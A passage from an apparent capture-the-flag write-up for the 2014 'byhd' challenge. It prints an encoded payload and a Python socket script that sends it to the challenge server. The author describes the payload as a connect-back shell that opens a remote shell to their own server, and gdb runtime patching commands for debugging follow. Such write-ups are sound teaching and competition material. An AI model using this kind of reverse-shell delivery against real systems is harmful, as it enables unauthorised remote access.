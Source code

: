   <div class="code-embed-infos">
    <span class="code-embed-name"></span>
  </div>
</div>

And we got the output:

`<br />
'\xd7_\xe0\x9a\xeb\xec\xea\x0bv\xbd\x90\n\x82\x9f^\xccu\x05\xf3\xfa=\x0f\x0f\xd7\xafsk\xaf\xb3\xae\xd3\x9e\t@\xb915\xbep[\xb9m\xee\x0e\xf0\xef\x9b|<em>Gv\xae\x1b\xfa\xee\xbd\xb05\xd7\xf8%Aqk\xaf\xb3\xfa57\x87\xeb\xd7</em>|5\xd7\xd9\xfd\x19\x8b\xc3\xf5\xeb\xaf\xb3\xfa3\x17Q\xf0\xf0\xfdz\xeb\xec\xfe\x8c\xc5\xd4|<?^\xba\xfb\xe1\xae\xbf\xc1&\xf5\x83\xe0&#92;\x0bi\xcf\xf2\xf0*:\xba\xe25\xedF\xd7_g\xf4x\x0f\x0f\xd7\xb5'<br />
`

Try to send this to the real service:

  
import socket  
s = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)  
s.connect((&#8216;byhd_147e0accdae13428910e909704b21b11.2014.shallweplayaga.me&#8217;, 9730))  
s.send(&#8220;\xff\x00\x00\x00&#8243;)  
s.send(&#8216;\xd7\_\xe0\x9a\xeb\xec\xea\x0bv\xbd\x90\n\x82\x9f^\xccu\x05\xf3\xfa=\x0f\x0f\xd7\xafsk\xaf\xb3\xae\xd3\x9e\t@\xb915\xbep[\xb9m\xee\x0e\xf0\xef\x9b|\_Gv\xae\x1b\xfa\xee\xbd\xb05\xd7\xf8%Aqk\xaf\xb3\xfa57\x87\xeb\xd7_|5\xd7\xd9\xfd\x19\x8b\xc3\xf5\xeb\xaf\xb3\xfa3\x17Q\xf0\xf0\xfdz\xeb\xec\xfe\x8c\xc5\xd4|<?^\xba\xfb\xe1\xae\xbf\xc1&#038;\xf5\x83\xe0\\\x0bi\xcf\xf2\xf0*:\xba\xe25\xedF\xd7_g\xf4x\x0f\x0f\xd7\xb5'+'B'*100)
[/pastacode]

Since it's a connect-back shell, we got a shell from our server and simply read the flag


<pre>

`cat flag
The flag is: What a cold ass gershnoskel.
`</pre> 

## Some facts

  * The binary requires user `byhd` to exist in the system so we need to create a new system user before running the binary on our box. I had to run it as `root` otherwise some of the initialization functions would fail.</p> 
  * It was hard to debug the resulting shellcode as we have to set the break point and examine the memory from time to time. So I had an idea to change the binary so that it could send back the final output to client. It&#8217;s obviously not possible to patch the binary as its content is one of the factor to generate the final shellcode.

I came up with the following gdb commands to patch the instructions at runtime:

    # gdb ./byhd_147e0accdae13428910e909704b21b11 
    (gdb) br *0x4011ad  # Make it stop at entry point
    (gdb) r
    Starting program: /tmp/byhd_147e0accdae13428910e909704b21b11 
    [Thread debugging using libthread_db enabled]
    Breakpoint 1, 0x00000000004011ad in ?? ()
    (gdb) set *(unsigned char*)0x401c56=0x74
    (gdb) set *(unsigned char*)0x401c6c=0xff
    (gdb) set *(unsigned char*)0x401c64=0x48
    (gdb) set *(unsigned char*)0x401c65=0x8b
    (gdb) set *(unsigned char*)0x401c66=0x4d
    (gdb) set *(unsigned char*)0x401c67=0xe8
    (gdb) c
    

 [1]: http://zepvn.com/uploads/2014/05/byhd_147e0accdae13428910e909704b21b11.tar.gz